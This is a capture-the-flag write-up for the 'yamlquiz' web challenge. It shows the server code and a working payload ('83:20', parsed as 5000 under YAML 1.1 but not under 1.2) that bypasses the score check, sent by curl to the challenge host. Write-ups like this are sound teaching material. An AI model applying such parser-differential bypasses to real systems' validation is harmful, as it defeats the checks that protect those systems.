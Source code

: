 # yamlquiz

```
How well do you know ~~JSON~~ YAML? Take this quiz and find out!

yamlquiz.ctfi.ng
```

Attachment:

```js
const express = require('express');
const YAML = require('yaml');

const PORT = process.env.PORT || 4455;
const FLAG = process.env.FLAG || 'corctf{fake_flag_for_testing}';

const app = express();

app.use(express.urlencoded({extended: false}));
app.use(express.static('static'));

app.post('/submit', (req, res) => {
  let result = req.body.result;
  let score = 0;
  if (result) {
    const result_parsed_1 = YAML.parse(result, null, {version: '1.1'});
    const result_parsed_2 = YAML.parse(result, null, {version: '1.2'});
    const score_1 = result_parsed_1?.result?.[0]?.score ?? 0;
    const score_2 = result_parsed_2?.result?.[0]?.score ?? 0;
    if (score_1 !== score_2) {
        score = score_1;
    }
  } else {
    score = 0;
  }

  if (score === 5000) {
    res.json({pass: true, flag: FLAG});
  } else {
    res.json({pass: false});
  }
});

app.listen(PORT, () => console.log(`web/yamlquiz listening on port ${PORT}`));
```

So we need to find the differences between yaml 1.1 and 1.2 to let one yaml to be parsed into different values. Some searches lead to <https://ruudvanasseldonk.com/2023/01/11/the-yaml-document-from-hell>:

![](yamlquiz.png)

So, to get `5000`, we can use `83:20` so that `83*60+20=5000`. Test it in JavaScript:

```js
const YAML = require('yaml');
const result = "result:\n - score: 83:20";
const result_parsed_1 = YAML.parse(result, null, {version: '1.1'});
const result_parsed_2 = YAML.parse(result, null, {version: '1.2'});
const score_1 = result_parsed_1?.result?.[0]?.score ?? 0;
const score_2 = result_parsed_2?.result?.[0]?.score ?? 0;
console.log(score_1);
console.log(score_2);
console.log("result=" + encodeURIComponent(result));
```

Output:

```
5000
83:20
result=result%3A%0A%20-%20score%3A%2083%3A20
```

It does work! Get flag via:

```shell
$ curl -X POST -d "result=result%3A%0A%20-%20score%3A%2083%3A20" https://yamlquiz.ctfi.ng/submit
{"pass":true,"flag":"corctf{ihateyamlihateyamlihateyaml!!!}"}
```
